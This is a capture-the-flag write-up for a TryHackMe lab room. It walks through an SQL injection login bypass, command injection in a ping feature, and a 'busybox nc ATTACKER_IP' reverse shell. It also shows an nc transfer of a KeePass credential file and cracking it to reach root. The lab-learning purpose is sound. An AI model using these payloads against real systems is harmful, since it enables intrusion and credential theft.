# Silent Monitor

**Difficulty:** 🟡 Medium · **Room:** [TryHackMe ↗](https://tryhackme.com/room/silent-monitor)

CorpNet's internal network operations centre has been running quietly for years. Monitoring hosts, logging events, and keeping the infrastructure alive. Or so it seems. A tip from a disgruntled contractor suggests that someone on the NOC team has been cutting corners, leaving doors open, and hiding things in places no one thinks to look.

The portal is up. The services show green. The audit log looks clean.

But clean logs can be written by anyone.

Your job is to get in, move through the system, and find out what is really running behind the secret dashboard.

---

## Reconnaissance

I started with an `nmap` scan to determine which ports were open:



The results showed that SSH was running on port 22, and `mmcc` (Multimedia Conference Control tool) on port 5050. I followed up with another scan, using the `-sV` and `-sC` flags for version enumeration and nmap's default scripts:



Port 22 was running `OpenSSH 8.9p1`, but `mmcc` wasn't actually running on port 5050 — HTTP was, so the first `nmap` scan hadn't correctly identified the service. I visited the webpage, which was a NOC (Network Operations Centre) portal used to monitor CorpNet's internal network. A `gobuster` scan found an `/internal` endpoint:



---

## Initial Access

I visited this endpoint, which turned out to be a login page for the portal:



The placeholder in the username field revealed that it expected an operator ID. However, the exact ID format wasn't shown, so brute-forcing wasn't really an option. I tested the login form for other vulnerabilities instead. Cross-site scripting (XSS) didn't work, but the site was vulnerable to SQL injection. By entering `' OR 1=1 -- -` in both the username and password fields, I was able to authenticate and gain access as `netops`:



---

## Privilege Escalation

### Escalation to `www-data`

After gaining access to the internal portal, a `Host Health` feature in the `Operations` section caught my attention. Its main purpose was to verify connectivity with a given IP or hostname. I tested this feature and noticed it was using the `ping` command, which meant there was a good chance of a command injection vulnerability if the input wasn't properly sanitized:



I tried escaping the `ping` command with `;`, `&&`, `||`, and a URL-encoded newline, but none of them worked. I decided to capture the request with Burp Suite. By modifying it to append a newline followed by a system command, I confirmed the command injection vulnerability:



So I injected a reverse shell payload, set up a listener, and got a connection as `www-data`:



Reverse shell used:

```bash
busybox nc ATTACKER_IP 4444 -e /bin/bash
```

### Escalation to `sysadmin`

After getting a reverse shell, I found myself in the `/opt/netops` directory. There were three interesting files there: `app.py` contained the application's source code, `netops.db` was likely the database file, and — most interesting — `secret.config` contained a database password for `sysadmin`:



I checked whether the same password worked for SSH, and it did — I connected via SSH as `sysadmin` and grabbed the first flag:



### Escalation to `root`

In `sysadmin`'s home folder there was a `backup` directory containing a `README.txt`:

```text
Backup archive — infrastructure credentials

Periodic exports from the credential store are placed here by the backup agent.
Treat all files in this directory as CONFIDENTIAL.

infrastructure.kdbx — KeePass credential database

Contact the sysadmin team lead if you require access.
```

...along with an `infrastructure.kdbx` file. I transferred it to my system:

On `sysadmin`:

```bash
nc ATTACKER_IP 4444 > infrastructure.kdbx
```

On my system:

```bash
nc -lvnp 4444 < database.kdbx
```

I opened the file:

```bash
keepassxc database.kdbx
```

But it needed a password. I tried reusing the password used for SSH login as `sysadmin`, but that didn't work. So I tried extracting the password hash with `keepass2john`, but got an error saying the tool doesn't support file versions above 40000. So I used [this tool](https://github.com/r3nt0n/keepass4brute) instead, which let me crack the password:



With the password, I opened the database, which contained root credentials. I switched users with `su`, gaining root access and the second flag:



---

## Kill Chain

This box came down to a login bypass that opened the door, and two separate trust issues that carried the rest of the way. SQL injection in the portal's login form was enough to authenticate without valid credentials. From there, a network-diagnostic feature that piped user input straight into `ping` gave command injection and a shell as `www-data`. A leftover config file in the application directory then handed over a database password that turned out to be reused for SSH — a much simpler route into the `sysadmin` account than exploiting anything further. Finally, a KeePass backup file sitting in that account's home folder held root's credentials, once cracked offline.

`netops (via SQLi) → www-data (via command injection) → sysadmin (via password reuse) → root (via cracked KeePass backup)`

- **Initial Access:** SQL injection in the login form → authenticated as `netops`
- **Privilege Escalation:** Command injection in the `Host Health` feature → reverse shell as `www-data`
- **Privilege Escalation:** Database password disclosed in `secret.config`, reused for SSH → shell as `sysadmin`, first flag
- **Final Escalation:** KeePass backup file cracked offline → root credentials → root access, second flag

> Thanks for reading!